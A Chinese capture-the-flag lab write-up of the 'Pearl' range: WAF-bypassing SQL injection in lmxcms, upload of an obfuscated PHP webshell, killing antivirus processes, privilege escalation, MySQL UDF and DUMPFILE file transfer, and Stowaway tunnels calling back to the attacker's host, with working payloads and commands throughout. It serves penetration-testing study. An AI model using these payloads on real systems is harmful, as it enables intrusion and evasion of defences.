# cyberstrikelab—Pearl-先知社区

> **来源**: https://xz.aliyun.com/news/16968  
> **文章ID**: 16968

---

# cyberstrikelab—Pearl

# 第一台机器

连接openvpn，自动跳转到192.168.10.65，发现是理想cms。



找到后台登录地址

```
http://192.168.10.65/admin.php?m=Login&a=index
```



搜索Nday，发现梦想CMS版本1.4有一个前台SQL注入—报错注入的漏洞，但是有安全狗，得绕一下。

可以使用两次url编码绕过

## 前台sql注入漏洞

### 手动注入

```
1'and updatexml(0,concat(0x7e,user()),1)#

1'and updatexml(0,concat(0x7e,database()),1)# lmxcms

1'and updatexml(0,concat(0x7e,(select table_name from information_schema.tables where table_schema='lmxcms')),1)#

1'and updatexml(0,concat(0x7e,(select table_name from information_schema.tables where table_schema='lmxcms' limit 0,1)),1)#

1'and updatexml(0,concat(0x7e,(select column_name from information_schema.columns where table_name='lmx_user' limit 0,1)),1)#

1'and updatexml(1,concat(0x7e,(select name from lmx_user limit 0,1)),0)#
```

表有很多，一个个改比较麻烦，直接抓包，爆破。

```
GET /index.php/?m=Tags&name=%25%33%31%25%32%37%25%36%31%25%36%65%25%36%34%25%32%30%25%37%35%25%37%30%25%36%34%25%36%31%25%37%34%25%36%35%25%37%38%25%36%64%25%36%63%25%32%38%25%33%30%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%34%25%36%31%25%36%32%25%36%63%25%36%35%25%35%66%25%36%65%25%36%31%25%36%64%25%36%35%25%32%30%25%36%36%25%37%32%25%36%66%25%36%64%25%32%30%25%36%39%25%36%65%25%36%36%25%36%66%25%37%32%25%36%64%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%35%66%25%37%33%25%36%33%25%36%38%25%36%35%25%36%64%25%36%31%25%32%65%25%37%34%25%36%31%25%36%32%25%36%63%25%36%35%25%37%33%25%32%30%25%37%37%25%36%38%25%36%35%25%37%32%25%36%35%25%32%30%25%37%34%25%36%31%25%36%32%25%36%63%25%36%35%25%35%66%25%37%33%25%36%33%25%36%38%25%36%35%25%36%64%25%36%31%25%33%64%25%32%37%25%36%63%25%36%64%25%37%38%25%36%33%25%36%64%25%37%33%25%32%37%25%32%30%25%36%63%25%36%39%25%36%64%25%36%39%25%37%34%25%32%30§%25%33%32%25%33%36§%25%32%63%25%33%31%25%32%39%25%32%39%25%32%63%25%33%31%25%32%39%25%32%33 HTTP/1.1
Host: 192.168.10.65
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

我这里设置是第26位，两次url编码就是%25%33%32%25%33%36，直接过滤%25%33%32%25%33%36找到这个位置添加payload。



设置爆破数值，从1-50，依次加1，然后对payload进行两次url编码。





发现有30个表，这里要找到后台的账号密码，继续爆破lmx\_user字段。

```
GET /index.php/?m=Tags&name=%25%33%31%25%32%37%25%36%31%25%36%65%25%36%34%25%32%30%25%37%35%25%37%30%25%36%34%25%36%31%25%37%34%25%36%35%25%37%38%25%36%64%25%36%63%25%32%38%25%33%30%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%36%33%25%36%66%25%36%63%25%37%35%25%36%64%25%36%65%25%35%66%25%36%65%25%36%31%25%36%64%25%36%35%25%32%30%25%36%36%25%37%32%25%36%66%25%36%64%25%32%30%25%36%39%25%36%65%25%36%36%25%36%66%25%37%32%25%36%64%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%35%66%25%37%33%25%36%33%25%36%38%25%36%35%25%36%64%25%36%31%25%32%65%25%36%33%25%36%66%25%36%63%25%37%35%25%36%64%25%36%65%25%37%33%25%32%30%25%37%37%25%36%38%25%36%35%25%37%32%25%36%35%25%32%30%25%37%34%25%36%31%25%36%32%25%36%63%25%36%35%25%35%66%25%36%65%25%36%31%25%36%64%25%36%35%25%33%64%25%32%37%25%36%63%25%36%64%25%37%38%25%35%66%25%37%35%25%37%33%25%36%35%25%37%32%25%32%37%25%32%30%25%36%63%25%36%39%25%36%64%25%36%39%25%37%34%25%32%30§%25%33%32%25%33%36§%25%32%63%25%33%31%25%32%39%25%32%39%25%32%63%25%33%31%25%32%39%25%32%33 HTTP/1.1
Host: 192.168.10.65
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```



找到账号和密码字段

得到账号是admin，密码是hash



```
755baa2a3a108001fae12a92b4e0f54d
```

然后解md5解不开，到这我应该就放弃了，因为前面我测了弱口令，然后问了Asy0y0师傅，发现是弱口令admin123，我前面按道理是测过这个的，可能输成admin@123了.........

### sqlmap注入

```
python3 sqlmap.py -r 1.txt --batch --technique=E -v3 --tamper=chardoubleencode -p name -D lmxcms -T lmx_user --dump
```


## 后台存在文件上传漏洞



允许上传php文件，这里有安全狗一句话木马肯定被杀

使用狐狸工具箱里面的弱鸡webshell免杀工具


```
<?php if ($_COOKIE['pNkIfG'] == "z8Igdk2RSHV3UAN") {
    $SlysoQ='str_';
    $QUWRfL=$SlysoQ.'replace';
    $fCsZNz=substr($QUWRfL,6);
    $zWmchr='zxcszxctzxcrzxc_zxcrzxcezxc';
    if ($_GET['VdSXoL'] !== $_GET['UNkHtm'] && @md5($_GET['VdSXoL']) === @md5($_GET['UNkHtm'])){
    $mbdisX = 'str_re';
    $zWmchr=substr_replace('zxc',$mbdisX,$zWmchr);
    }else{die();}
    $fCsZNz=$zWmchr.$fCsZNz;
    $PTEIhv = $fCsZNz("fylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7", "", "str_fylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7rfylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7eplfylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7acfylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7efylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7");
    $aqoDYB = $PTEIhv("I3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykK", "", "baI3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykKsI3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykKe64_I3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykKdecoI3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykKdI3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykKeI3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykK");
    $uyHEsY = $aqoDYB($PTEIhv("ncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFy", "", "Y3JncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFylYXncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFyRlXncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFy2Z1bncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFymncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFyN0ancPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFyWncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFy9uncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFy"));
    $xmPspC = $aqoDYB($PTEIhv("mW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhF", "", "ZXmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFZhbmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFCmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFgmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFkXmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhF1BPmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFU1RbmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFJmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFwmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhF=mW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhF=mW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhF"));
    $YDkpLt = $aqoDYB($PTEIhv("FrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9", "", "NkFrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9RFrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud96FrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9WXZBFrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9ZFrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9w==FrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9"));
    $ltSqyD = $aqoDYB($PTEIhv("IdveH4ZrQEpSwa5KnMBRYOcWTqJzAGkV6hiP2F9j3bufoX1ygt", "", "JIdveH4ZrQEpSwa5KnMBRYOcWTqJzAGkV6hiP2F9j3bufoX1ygt10IdveH4ZrQEpSwa5KnMBRYOcWTqJzAGkV6hiP2F9j3bufoX1ygtpOIdveH4ZrQEpSwa5KnMBRYOcWTqJzAGkV6hiP2F9j3bufoX1ygtw==IdveH4ZrQEpSwa5KnMBRYOcWTqJzAGkV6hiP2F9j3bufoX1ygt"));
    @$tTkKl = $xmPspC;
    @$$tTkKl = $YDkpLt;
    @$SZcvn=$tTkKl.$$tTkKl;
    @$oBqQO=$SZcvn;
    @$$oBqQO=$ltSqyD;
    @$OdXiD=$oBqQO;
    @$yZVxm=$$oBqQO;
    @$BYhPw = $uyHEsY('$QRDve,$EDgWN','return "$QRDve"."$EDgWN";');
    @$zoJju=$BYhPw($OdXiD,$yZVxm);
    @$hAsPry = $uyHEsY("", $zoJju);
    @$hAsPry();
    } ?>
```

然后进行一次url编码

```
POST /admin.php?m=Template&a=editfile&dir= HTTP/1.1
Host: 192.168.10.65
Origin: http://192.168.10.65
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Referer: http://192.168.10.65/admin.php?m=login&a=login
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=qfk9lr8tc9cc0hu3ibbclijb87
Content-Length: 4457

settemcontent=1&filename=1.php&temcontent=%3C%3Fphp%20if%20%28%24%5FCOOKIE%5B%27pNkIfG%27%5D%20%3D%3D%20%22z8Igdk2RSHV3UAN%22%29%20%7B%0D%0A%20%20%20%20%24SlysoQ%3D%27str%5F%27%3B%0D%0A%20%20%20%20%24QUWRfL%3D%24SlysoQ%2E%27replace%27%3B%0D%0A%20%20%20%20%24fCsZNz%3Dsubstr%28%24QUWRfL%2C6%29%3B%0D%0A%20%20%20%20%24zWmchr%3D%27zxcszxctzxcrzxc%5Fzxcrzxcezxc%27%3B%0D%0A%20%20%20%20if%20%28%24%5FGET%5B%27VdSXoL%27%5D%20%21%3D%3D%20%24%5FGET%5B%27UNkHtm%27%5D%20%26%26%20%40md5%28%24%5FGET%5B%27VdSXoL%27%5D%29%20%3D%3D%3D%20%40md5%28%24%5FGET%5B%27UNkHtm%27%5D%29%29%7B%0D%0A%20%20%20%20%24mbdisX%20%3D%20%27str%5Fre%27%3B%0D%0A%20%20%20%20%24zWmchr%3Dsubstr%5Freplace%28%27zxc%27%2C%24mbdisX%2C%24zWmchr%29%3B%0D%0A%20%20%20%20%7Delse%7Bdie%28%29%3B%7D%0D%0A%20%20%20%20%24fCsZNz%3D%24zWmchr%2E%24fCsZNz%3B%0D%0A%20%20%20%20%24PTEIhv%20%3D%20%24fCsZNz%28%22fylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7%22%2C%20%22%22%2C%20%22str%5FfylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7rfylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7eplfylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7acfylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7efylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7%22%29%3B%0D%0A%20%20%20%20%24aqoDYB%20%3D%20%24PTEIhv%28%22I3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykK%22%2C%20%22%22%2C%20%22baI3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykKsI3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykKe64%5FI3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykKdecoI3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykKdI3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykKeI3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykK%22%29%3B%0D%0A%20%20%20%20%24uyHEsY%20%3D%20%24aqoDYB%28%24PTEIhv%28%22ncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFy%22%2C%20%22%22%2C%20%22Y3JncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFylYXncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFyRlXncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFy2Z1bncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFymncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFyN0ancPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFyWncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFy9uncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFy%22%29%29%3B%0D%0A%20%20%20%20%24xmPspC%20%3D%20%24aqoDYB%28%24PTEIhv%28%22mW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhF%22%2C%20%22%22%2C%20%22ZXmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFZhbmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFCmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFgmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFkXmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhF1BPmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFU1RbmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFJmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFwmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhF%3DmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhF%3DmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhF%22%29%29%3B%0D%0A%20%20%20%20%24YDkpLt%20%3D%20%24aqoDYB%28%24PTEIhv%28%22FrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9%22%2C%20%22%22%2C%20%22NkFrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9RFrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud96FrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9WXZBFrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9ZFrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9w%3D%3DFrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9%22%29%29%3B%0D%0A%20%20%20%20%24ltSqyD%20%3D%20%24aqoDYB%28%24PTEIhv%28%22IdveH4ZrQEpSwa5KnMBRYOcWTqJzAGkV6hiP2F9j3bufoX1ygt%22%2C%20%22%22%2C%20%22JIdveH4ZrQEpSwa5KnMBRYOcWTqJzAGkV6hiP2F9j3bufoX1ygt10IdveH4ZrQEpSwa5KnMBRYOcWTqJzAGkV6hiP2F9j3bufoX1ygtpOIdveH4ZrQEpSwa5KnMBRYOcWTqJzAGkV6hiP2F9j3bufoX1ygtw%3D%3DIdveH4ZrQEpSwa5KnMBRYOcWTqJzAGkV6hiP2F9j3bufoX1ygt%22%29%29%3B%0D%0A%20%20%20%20%40%24tTkKl%20%3D%20%24xmPspC%3B%0D%0A%20%20%20%20%40%24%24tTkKl%20%3D%20%24YDkpLt%3B%0D%0A%20%20%20%20%40%24SZcvn%3D%24tTkKl%2E%24%24tTkKl%3B%0D%0A%20%20%20%20%40%24oBqQO%3D%24SZcvn%3B%0D%0A%20%20%20%20%40%24%24oBqQO%3D%24ltSqyD%3B%0D%0A%20%20%20%20%40%24OdXiD%3D%24oBqQO%3B%0D%0A%20%20%20%20%40%24yZVxm%3D%24%24oBqQO%3B%0D%0A%20%20%20%20%40%24BYhPw%20%3D%20%24uyHEsY%28%27%24QRDve%2C%24EDgWN%27%2C%27return%20%22%24QRDve%22%2E%22%24EDgWN%22%3B%27%29%3B%0D%0A%20%20%20%20%40%24zoJju%3D%24BYhPw%28%24OdXiD%2C%24yZVxm%29%3B%0D%0A%20%20%20%20%40%24hAsPry%20%3D%20%24uyHEsY%28%22%22%2C%20%24zoJju%29%3B%0D%0A%20%20%20%20%40%24hAsPry%28%29%3B%0D%0A%20%20%20%20%7D%20%3F%3E
```



使用蚁剑或者哥斯拉连接

```
http://192.168.10.65/Template/1.php?VdSXoL[]=2&UNkHtm[]=1
fIjwu[]=2&hsIrf[]=1&6DzYvAg
Cookie：pNkIfG=z8Igdk2RSHV3UAN
```

查看是否有杀软




先结束安全狗进程，上CS

```
taskkill /pid 1216 -f
taskkill /pid 1108 -f
```

## 上线CS





## 提权

使用烂土豆提权





开启3389端口，添加一个后门用户





## 远程桌面上线（test$）

干掉安全狗



# 第二台机器

## 第一层内网信息收集

发现有双网卡都扫一下

```
192.168.10.233:8080 open
192.168.10.42:3306 open
192.168.10.65:80 open
192.168.10.233:22 open
192.168.10.42:22 open
192.168.10.65:3306 open
192.168.10.65:445 open
192.168.10.65:139 open
192.168.10.65:135 open
[*] 192.168.10.65        WORKGROUP\WIN-BVAJO3C2D90   Windows Server 2012 R2 Standard 9600
[*] WebTitle:https://192.168.10.233:8080 code:404 len:19     title:None
[*] WebTitle:http://192.168.10.65      code:200 len:8460   title:梦想cms（lmxcms）是一套完全免费、开源、无授权限制的网站管理系统
[+] mysql:192.168.10.42:3306:root 123456
```

发现一个mysql弱口令



其实到这一步可以不打了，但是我看着172段啥都没有就以为mysql这个是突破口，然后打了好久，也学到点东西。

最后问了官方才知道不用打了......


这里还是写一下当时做的尝试。

## udf提权

使用mdut连上去，udf提权成功

<https://github.com/SafeGroceryStore/MDUT>

<https://github.com/DeEpinGh0st/MDUT-Extend-Release>


然后which wget和curl都没有，不知道怎么上传文件，后面想到了大头师傅打春秋云境用到的手法

<https://www.xiinnn.com/posts/icq-tunnelx/>





这里测了一下发现是文件太大了不能一次性上传，得分段重组。

## 分段传输文件

### 转Hex

然后就把Vshell的客户端，转成16进制



<https://mp.weixin.qq.com/s/LFM1btXXrsO4aGj_LU7tvg>

### 分割

```
split -b 1048000 1 .
```

### mysql写文件

```
每个文件开头添加
SELECT 0x
结尾添加
 INTO DUMPFILE '/tmp/aa';
```

### 组合

```
cat /tmp/a* > /tmp/1
```

### 对比hash



然后比较抽象，竟然正向和反向都上线不了

对比了hash没问题，后面快崩溃的时候，想到stowaway也能上线linux，把stowaway当做c2用，哈哈哈，后面发现他竟然还能传文件，发现新大陆了.....

## 上线stowaway

### 第一层

攻击机

```
windows_admin.exe -l 172.16.233.2:9000 -s 123
```

目标机

```
windows_x64_agent.exe -c 172.16.233.2:9000 -s 123 --reconnect 8
```

### 第二层

攻击机

```
(node 0) >> listen
[*] BE AWARE! If you choose IPTables Reuse or SOReuse,you MUST CONFIRM that the node you're controlling was started in the corresponding way!
[*] When you choose IPTables Reuse or SOReuse, the node will use the initial config(when node started) to reuse port!
[*] Please choose the mode(1.Normal passive/2.IPTables Reuse/3.SOReuse): 1
[*] Please input the [ip:]<port> : 9000
```

目标机

```
windows_agent.exe -c 192.168.10.65:9000 -s 123 --reconnect 8
```

上线成功



```
Microsoft Windows [版本 10.0.19045.5487]
(c) Microsoft Corporation。保留所有权利。

C:\Users\Anonymous\Desktop\代理\Stowaway V2.2\stowaway>windows_x64_admin.exe -l 172.16.233.2:9000 -s 123
[*] Starting admin node on port 172.16.233.2:9000

    .-')    .-') _                  ('\ .-') /'  ('-.      ('\ .-') /'  ('-.
   ( OO ). (  OO) )                  '.( OO ),' ( OO ).-.   '.( OO ),' ( OO ).-.
   (_)---\_)/     '._  .-'),-----. ,--./  .--.   / . --. /,--./  .--.   / . --. /  ,--.   ,--.
   /    _ | |'--...__)( OO'  .-.  '|      |  |   | \-.  \ |      |  |   | \-.  \    \  '.'  /
   \  :' '. '--.  .--'/   |  | |  ||  |   |  |,.-'-'  |  ||  |   |  |,.-'-'  |  | .-')     /
    '..'''.)   |  |   \_) |  |\|  ||  |.'.|  |_)\| |_.'  ||  |.'.|  |_)\| |_.'  |(OO  \   /
   .-._)   \   |  |     \ |  | |  ||         |   |  .-.  ||         |   |  .-.  | |   /  /\_
   \       /   |  |      ''  '-'  '|   ,'.   |   |  | |  ||   ,'.   |   |  | |  | '-./  /.__)
    '-----'    '--'        '-----' '--'   '--'   '--' '--''--'   '--'   '--' '--'   '--'
                                    { v2.2  Author:ph4ntom }
[*] Waiting for new connection...
[*] Connection from node 192.168.10.65:53685 is set up successfully! Node id is 0
(admin) >> use 0
(node 0) >> socks 2000
[*] Trying to listen on 0.0.0.0:2000......
[*] Waiting for agent's response......
[*] Socks start successfully!
(node 0) >> listen
[*] BE AWARE! If you choose IPTables Reuse or SOReuse,you MUST CONFIRM that the node you're controlling was started in the corresponding way!
[*] When you choose IPTables Reuse or SOReuse, the node will use the initial config(when node started) to reuse port!
[*] Please choose the mode(1.Normal passive/2.IPTables Reuse/3.SOReuse): 1
[*] Please input the [ip:]<port> : 9000
[*] Waiting for response......
[*] Node is listening on 9000
(node 0) >>
[*] New node online! Node id is 1

(node 0) >> back
(admin) >> use 1
(node 1) >> socks 2001
[*] Trying to listen on 0.0.0.0:2001......
[*] Waiting for agent's response......
[*] Socks start successfully!
(node 1) >> shell
[*] Waiting for response.....
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
mysql@25b8a4c87c6d:/usr/local/mysql/data$ ipconfig
ipconfig
bash: ipconfig: command not found
mysql@25b8a4c87c6d:/usr/local/mysql/data$ cat /etc/hosts
cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.20.0.2      25b8a4c87c6d
mysql@25b8a4c87c6d:/usr/local/mysql/data$ cat /proc/net/fib_trie
cat /proc/net/fib_trie
Main:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.20.0.0/16 2 0 2
        +-- 172.20.0.0/30 2 0 2
           |-- 172.20.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.20.0.2
              /32 host LOCAL
        |-- 172.20.255.255
           /32 link BROADCAST
Local:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.20.0.0/16 2 0 2
        +-- 172.20.0.0/30 2 0 2
           |-- 172.20.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.20.0.2
              /32 host LOCAL
        |-- 172.20.255.255
           /32 link BROADCAST
```

没有发现有其他网段，看了根目录是docker环境猜测是不是要逃逸出去，然后用CDK扫一下

### stowaway上传CDK



```
(node 1) >> upload C:/cdk /tmp/cdk
[*] File transmitting, please wait...
3.77 MiB / 3.77 MiB [--------------------------------------------------------------------->_____] 92.48% 3.63 MiB p/s ETA 0s
(node 1) >> 77 MiB [------------------------------------------------------------------------------] 100.00% 4.35 MiB p/s 1s

(node 1) >> shell
[*] Waiting for response.....
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
mysql@25b8a4c87c6d:/usr/local/mysql/data$ cd /tmp
cd /tmp
mysql@25b8a4c87c6d:/tmp$ chmod 777 cdk
chmod 777 cdk
mysql@25b8a4c87c6d:/tmp$ ./cdk evaluate --full
./cdk evaluate --full
CDK (Container DucK)
CDK Version(GitCommit): 251f18c614f925f26569f9cc6177c3b3fd656bd2
Zero-dependency cloudnative k8s/docker/serverless penetration toolkit by cdxy & neargle
Find tutorial, configuration and use-case in https://github.com/cdk-team/CDK/

[  Information Gathering - System Info  ]
2025/02/17 08:53:36 current dir: /tmp
2025/02/17 08:53:36 current user: mysql uid: 999 gid: 1000 home: /home/mysql
2025/02/17 08:53:36 hostname: 25b8a4c87c6d
2025/02/17 08:53:36 debian ubuntu 16.04 kernel: 3.10.0-1160.el7.x86_64
2025/02/17 08:53:36 Setuid files found:
        /usr/bin/chfn
        /usr/bin/chsh
        /usr/bin/gpasswd
        /usr/bin/newgrp
        /usr/bin/passwd
        /bin/mount
        /bin/su
        /bin/umount

[  Information Gathering - Services  ]

[  Information Gathering - Commands and Capabilities  ]
2025/02/17 08:53:36 available commands:
        find,ps,apt,dpkg,mysql,capsh,mount,fdisk,base64,perl
2025/02/17 08:53:36 Capabilities hex of Caps(CapInh|CapPrm|CapEff|CapBnd|CapAmb):
        CapInh: 0000000000000000
        CapPrm: 0000000000000000
        CapEff: 0000000000000000
        CapBnd: 00000000a80425fb
        CapAmb: 0000000000000000
        Cap decode: 0x0000000000000000 =
[*] Maybe you can exploit the Capabilities below:

[  Information Gathering - Mounts  ]
